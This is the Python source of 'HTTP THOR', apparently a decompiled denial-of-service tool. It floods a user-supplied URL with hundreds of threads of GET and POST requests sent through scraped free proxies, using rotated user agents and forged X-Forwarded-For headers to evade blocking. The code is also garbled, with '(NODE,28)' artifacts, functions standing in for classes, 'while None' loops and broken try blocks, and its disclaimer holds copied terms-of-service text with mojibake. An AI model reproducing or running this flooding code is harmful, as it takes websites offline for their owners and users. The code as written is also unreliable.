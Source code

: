 # ddos
#!/usr/bin/env python #coding: utf-8 #..:: > HTTP THOR &lt; ::.. Mod By THOR import urllib.request as urllib import os import threading import time import random import sys import string import urllib import multiprocessing import hashlib import getpass import socket import http.client as http    CONST_USERAGENT = [ 'Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36', 'Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36', 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.9 Safari/536.5', 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.9 Safari/536.5', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_0) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1063.0 Safari/536.3', 'Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0', 'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:29.0) Gecko/20120101 Firefox/29.0', 'Mozilla/5.0 (X11; OpenBSD amd64; rv:28.0) Gecko/20100101 Firefox/28.0', 'Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0', 'Mozilla/5.0 (Windows NT 6.1; rv:27.3) Gecko/20130101 Firefox/27.3', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.6; rv:25.0) Gecko/20100101 Firefox/25.0', 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:24.0) Gecko/20100101 Firefox/24.0', 'Mozilla/5.0 (Windows; U; MSIE 9.0; WIndows NT 9.0; en-US))', 'Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/6.0)', 'Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/4.0; InfoPath.2; SV1; .NET CLR 2.0.50727; WOW64)', 'Mozilla/5.0 (compatible; MSIE 10.0; Macintosh; Intel Mac OS X 10_7_3; Trident/6.0)', 'Opera/12.0(Windows NT 5.2;U;en)Presto/22.9.168 Version/12.00', 'Opera/9.80 (Windows NT 6.0) Presto/2.12.388 Version/12.14', 'Mozilla/5.0 (Windows NT 6.0; rv:2.0) Gecko/20100101 Firefox/4.0 Opera 12.14', 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0) Opera 12.14', 'Opera/12.80 (Windows NT 5.1; U; en) Presto/2.10.289 Version/12.02', 'Opera/9.80 (Windows NT 6.1; U; es-ES) Presto/2.9.181 Version/12.00', 'Opera/9.80 (Windows NT 5.1; U; zh-sg) Presto/2.9.181 Version/12.00', 'Mozilla/5.0 (compatible; MSIE 9.0; Windows Phone OS 7.5; Trident/5.0; IEMobile/9.0)', 'HTC_Touch_3G Mozilla/4.0 (compatible; MSIE 6.0; Windows CE; IEMobile 7.11)', 'Mozilla/4.0 (compatible; MSIE 7.0; Windows Phone OS 7.0; Trident/3.1; IEMobile/7.0; Nokia;N70)', 'Mozilla/5.0 (BlackBerry; U; BlackBerry 9900; en) AppleWebKit/534.11+ (KHTML, like Gecko) Version/7.1.0.346 Mobile Safari/534.11+', 'Mozilla/5.0 (BlackBerry; U; BlackBerry 9850; en-US) AppleWebKit/534.11+ (KHTML, like Gecko) Version/7.0.0.254 Mobile Safari/534.11+', 'Mozilla/5.0 (BlackBerry; U; BlackBerry 9850; en-US) AppleWebKit/534.11+ (KHTML, like Gecko) Version/7.0.0.115 Mobile Safari/534.11+', 'Mozilla/5.0 (BlackBerry; U; BlackBerry 9850; en) AppleWebKit/534.11+ (KHTML, like Gecko) Version/7.0.0.254 Mobile Safari/534.11+', 'Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.7 (KHTML, like Gecko) Comodo_Dragon/16.1.1.0 Chrome/16.0.912.63 Safari/535.7', 'Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/532.5 (KHTML, like Gecko) Comodo_Dragon/4.1.1.11 Chrome/4.1.249.1042 Safari/532.5', 'Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/537.13+ (KHTML, like Gecko) Version/5.1.7 Safari/534.57.2', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_3) AppleWebKit/534.55.3 (KHTML, like Gecko) Version/5.1.3 Safari/534.53.10', 'Mozilla/5.0 (iPad; CPU OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko ) Version/5.1 Mobile/9B176 Safari/7534.48.3', 'Mozilla/5.0 (Windows; U; Windows NT 6.1; tr-TR) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27']  def MyProcess(): '''MyProcess''' __qualname__ = 'MyProcess'  def __init__(self, url, proxy_list, threads_number): multiprocessing.Process.__init__(self) self.url = url self.proxy_list = proxy_list self.threads_number = threads_number   def run(self): for i in range(self.threads_number): Boomer(self.url, self.proxy_list).start() MyProcess = (NODE,28)(MyProcess, 'MyProcess', multiprocessing.Process)  def Boomer(): '''Boomer''' __qualname__ = 'Boomer'  def __init__(self, target_url, proxy_list): threading.Thread.__init__(self) self.target_url = target_url self.proxy_list = proxy_list self.prob = random.randrange(0, 10, 1)   def randomIp(self): random.seed() result = str(random.randint(1, 254)) + '.' + str(random.randint(1, 254)) + '.' result = result + str(random.randint(1, 254)) + '.' + str(random.randint(1, 254)) return result   def randomIpList(self): random.seed() res = '' for ip in range(random.randint(2, 8)): res = res + self.randomIp() + ', '  return res[0:len(res) - 2]   def randomUserAgent(self): return random.choice(CONST_USERAGENT)   def run(self): method = 'GET' if random.randrange(0, 10, 1) >= 5: method = 'POST' proxy_selected = random.choice(self.proxy_list).split(':') head = method + ' ' + self.target_url + ' HTTP/1.1\r\n' host_url = self.target_url.replace('http://', '').replace('https://', '').split('/')[0] host = 'Host: ' + host_url + '/ \r\n' accept = 'Accept-Encoding: gzip, deflate\r\n' user_agent = 'User-Agent: ' + self.randomUserAgent() + '\r\n' connection = 'Connection: Keep-Alive, Persist\r\nProxy-Connection: keep-alive\r\n' x_forwarded_for = 'X-Forwarded-For: ' + self.randomIpList() + '\r\n' http_request = head + host + user_agent + accept + x_forwarded_for + connection + '\r\n' while None: try: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect((proxy_selected[0], int(proxy_selected[1]))) s.send(http_request.encode('utf-8')) print('@' + method + ' request make.') try: for i in range(3): s.send(http_request) except: tts = 1  continue proxy = random.choice(self.proxy_list).split(':') continue  continue return None  Boomer = (NODE,28)(Boomer, 'Boomer', threading.Thread)  class Main: __qualname__ = 'Main'  def __init__(self): if os.name in ('nt', 'dos', 'ce'): os.system('cls') os.system('title ..................::HTTP THOR::..................') os.system('color a') color = [ 'a', 'b', 'c', 'd', 'e', 'f'] os.system('color %s' % color[random.randrange(0, len(color), 1)]) else: linux_shell_color = [ '\x1b[31m', '\x1b[32m', '\x1b[33m', '\x1b[34m', '\x1b[35m', '\x1b[36m', '\x1b[37m', '\x1b[95m', '\x1b[94m', '\x1b[92m', '\x1b[93m', '\x1b[91m', '\x1b[0m'] print(linux_shell_color[random.randrange(0, len(linux_shell_color), 1)]) disclaimer = ' \n' \ ' _ _ ___ _ _____ ' \ ' __| | __| |/ _ \\ ___ __| |___ /_ __\n' \ ' / _` |/ _` | | | / __|/ _` | |_ \\ \\ / /\n' \ ' | (_| | (_| | |_| \\__ \\ (_| |___) \\ V / \n' \ ' \\__,_|\\__,_|\\___/|___/\\__,_|____/ \\_/ \n' \ ' ### Using this program you are responsible of your action.\n' \ ' ### Be carefull and read TOS.\n' \ ' ### Author and copyright are reserverd by THOR.\n' \ '\n' \ ' BY ACCESSING AND USING THE SERVICES IN ANY MANNER, YOU ARE "ACCEPTING" \n' \ ' AND AGREEING TO BE BOUND BY THESE TERMS OF SERVICE TO THE EXCLUSION OF ALL OTHER TERMS. \n' \ ' IF YOU DO NOT UNCONDITIONALLY ACCEPT THESE TERMS IN THEIR ENTIRETY, \n' \ ' YOU SHALL NOT (AND SHALL HAVE NO RIGHT TO) ACCESS OR USE THE SERVICES. \n' \ ' IF THE TERMS OF THIS AGREEMENT ARE CONSIDERED AN OFFER, ACCEPTANCE IS EXPRESSLY LIMITED TO SUCH TERMS. \n' \ ' THESE TERMS SHOULD BE READ IN CONJUNCTION WITH HOOTSUITE\xc3\xa2\xe2\x82\xac\xe2\x84\xa2S PRIVACY POLICY AND COPYRIGHT POLICY.\n' \ '\n' \ ' Wherever used in these Terms of Service, \xc3\xa2\xe2\x82\xac\xc5\x93you\xc3\xa2\xe2\x82\xac\xc2\x9d, \xc3\xa2\xe2\x82\xac\xc5\x93your\xc3\xa2\xe2\x82\xac\xc2\x9d, \xc3\xa2\xe2\x82\xac\xc5\x93Customer\xc3\xa2\xe2\x82\xac\xc2\x9d, or similar terms means ' \ ' the person or legal entity accessing or using the Services. If you are accessing and \n' \ ' using the Services on behalf of a company (such as your employer) or other legal entity, \n' \ ' you represent and warrant that you have the authority to bind that company\n' \ ' or other legal entity to these Terms of Service.\n' \ '\n' \ '\n' \ ' ..................::HTTP THOR::..................' \ ' ' print(disclaimer)   def check_url(self, url): if url[0] + url[1] + url[2] + url[3] == 'www.': url = 'http://' + url elif url[0] + url[1] + url[2] + url[3] == 'http': pass else: url = 'http://' + url return url   def retrieve_proxy(self): sourcecode = urllib.request.urlopen('http://free-proxy-list.net/') half = str(sourcecode.read()) half = half.split('&lt;tbody>') half = half[1].split('&lt;/tbody>') half = half[0].split('&lt;tr>&lt;td>') proxy_list = '' for proxy in half: proxy = proxy.split('&lt;/td>&lt;td>')  try: proxy_list = proxy_list + proxy[0] + ':' + proxy[1] + '\n' continue continue  out_file = open('proxy.txt', 'w') out_file.write(proxy_list) out_file.close()  def setup(self): public_key = 'jjvbag%' secret_key = '&amp;kk17cnH%'  try: with open('password.txt', 'r') as f: password_file = f.readline() password_file = password_file.replace('\n', '')  except: print('# Could not find password.txt.') sys.exit(0)   try: sourcecode = urllib.request.urlopen('https://350adf0c87a0387a8100df99cb6...zhwUjBOa1VLUFdtRDhSR01qenZ1M1hZMWs/pwTHOR.txt') except: print('# Impossible to connect to the server, please try again.') sys.exit(0)  hash1 = str(sourcecode.read().decode('utf-8')) hash2 = hashlib.sha1(password_file.encode('utf-8') + secret_key.encode('utf-8')).hexdigest() + '8a,' + public_key if hash1 != hash2: print("##FATAL ERROR##\n\nYou maybe need to update this program or your password isn't correct.\n\nPm nick: Nhi paltalk.com.") sys.exit(0) print('# Password correct.') target_url = input('# Enter URL to send requests: ') target_url = self.check_url(target_url) while None:  try: s = str(input("# Enter 'y' to download a fresh proxy list or or leave empty to skip: ")) if s == 'y': self.retrieve_proxy() print('# Proxy list successfully downloaded.') break continue print('# Failed to download the proxy list.') continue  continue while None: ipotetical_list = str(input('# Enter the proxy list or leave empty to skip default [proxy.txt]: ')) if ipotetical_list == '': ipotetical_list = 'proxy.txt'  try: in_file = open(ipotetical_list, 'r') proxy_list = [] for i in in_file: proxy_list.append(i.split('/n')[0])  continue print('# Error to read file.') continue  continue while None:  try: pools_number = int(input('# Enter the number of parallel processes or leave empty to skip default [0]: ')) except: pools_number = 0  break continue while None:  try: threads_number = int(input('# Enter the number of thread or leave empty to skip default [800]: ')) except: threads_number = 800  break continue for i in range(threads_number): Boomer(target_url, proxy_list).start() time.sleep(0.003) print('Thread ' + str(i) + ' is going up')  if pools_number > 0: for pool_number in range(pools_number): MyProcess(target_url, proxy_list, threads_number).start()  if __name__ == '__main__': main = Main() main.setup()
